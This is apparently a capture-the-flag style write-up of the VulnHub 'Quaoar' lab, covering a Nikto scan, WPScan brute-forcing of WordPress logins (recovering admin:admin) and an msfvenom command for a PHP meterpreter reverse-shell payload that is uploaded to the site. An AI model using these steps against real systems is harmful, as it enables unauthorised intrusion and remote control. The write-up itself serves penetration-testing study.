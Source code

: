 ```bash
+ "robots.txt" contains 2 entries which should be manually viewed.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ /wordpress/: A Wordpress installation was found.
+ 8348 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2018-09-08 08:03:15 (GMT-4) (15 seconds)
---------------------------------------------------------------------------
```

looks like we found a word press

http://192.168.0.122/wordpress

![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/4.png)

## Exploitation

### Brute-forcing WordPress

Using WPScan i was able to bruteforce some creds to get into wordpress

![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/5.png)


<br/>
admin:admin

wpuser:wpuser
<br/>


![alt text]({{ site.baseurl }}/assets/images/vulnhub-writeup-quaoar/6.png)

so we login as admin and have a little butch around. Standard wordpress crap here.

Now we need to get a shell on this bad boy.

### Getting a Shell

Here I originally uploaded a web shell simple-backdoor.php but it made life hard.

Use msfvenom to make our shell



`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.19 LPORT=6666 -f raw > shell.php`



we upload **shell.php**
